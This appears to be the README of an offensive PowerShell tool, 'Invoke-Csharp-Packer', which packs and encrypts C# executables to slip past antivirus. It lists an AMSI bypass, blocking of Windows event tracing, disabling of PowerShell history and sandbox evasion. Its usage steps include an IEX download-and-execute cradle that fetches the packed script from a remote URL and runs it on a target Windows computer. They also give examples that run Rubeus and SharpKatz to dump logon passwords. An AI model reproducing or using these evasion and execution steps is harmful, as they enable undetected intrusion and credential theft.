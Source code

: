 <i/> -------- DISCLAIMER - WORK IN PROGRESS -------- </i>

### Invoke-Csharp-Packer.ps1
--------------------------------------
'Invoke-Csharp-Packer' allows to pack and encrypt offensive (C#) .NET executable files in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted PowerShell script that contains the (C#) .NET executable file.

> FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
> USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your (C#) .NET executable file (e.g. Rubeus.exe, Sharpkatz.exe) stored locally or on a remote web server.
```
PS C:\> Import-Module ./Invoke-Csharp-Packer.ps1
PS C:\> Invoke-Csharp-Packer -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1
--- or ---
PS C:\> Invoke-Csharp-Packer -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
``` 
```
PS C:\> Import-Module ./Invoke-Csharp-Packer.ps1
PS C:\> Invoke-Csharp-Packer -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 
--- or ---
PS C:\> Invoke-Csharp-Packer -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your (C#) .NET executable file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-Csharp-binary.ps1'); 
PS C:\> Invoke-Packed-NET-Executable "argument1","argument2","argument3",...
Example for Rubeus: Invoke-Packed-NET-Executable "logonsession","/current"

--- or ---

PS C:\> WGET -URI https://URL/Packed-Csharp-binary.ps1 -OutFile C:\temp\Packed-Csharp-binary.ps1
PS C:\> Import-Module C:\temp\Packed-Csharp-binary.ps1
PS C:\> Invoke-Packed-NET-Executable "argument1","argument2","argument3",...
Example for Sharpkatz: Invoke-Packed-NET-Executable "--Command","logonpasswords"
``` 

> LICENSE
  - GNU General Public License v3.0
